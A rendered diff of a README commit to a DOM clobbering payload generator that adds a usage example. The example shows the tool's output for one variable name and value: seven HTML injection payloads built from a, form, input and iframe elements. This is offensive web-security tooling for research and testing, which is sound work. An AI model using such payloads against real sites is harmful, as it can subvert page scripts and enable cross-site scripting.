

Before and after one commit to xanhacks/DOM-Clobbering-Generator, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
add usage

````diff
--- a/README.md
+++ b/README.md
@@ -4,7 +4,30 @@ Full article on [OffensiveWeb](https://www.offensiveweb.com/docs/topics/dom-clob
 
 ## Usage
 
-TODO
+```bash
+$ python3 generator.py video.lang 'Hello!'
+********************* INFO **********************
+ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
+variable_name = 'video.lang'
+variable_value = 'Hello!'
+depth = 2
+document_scope = False
+chrome_required = True
+******************** PAYLOAD #1 ********************
+<a id="video" lang="Hello!"></a>
+******************** PAYLOAD #2 ********************
+<form id="video" lang="Hello!"></form>
+******************** PAYLOAD #3 ********************
+<form name="video" lang="Hello!"></form>
+******************** PAYLOAD #4 ********************
+<input id="video" lang="Hello!"></input>
+******************** PAYLOAD #5 ********************
+<iframe id="video" lang="Hello!"></iframe>
+******************** PAYLOAD #6 ********************
+<iframe name="video" lang="Hello!"></iframe>
+******************** PAYLOAD #7 ********************
+<a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
+```
 
 ## attributes.json
 
````
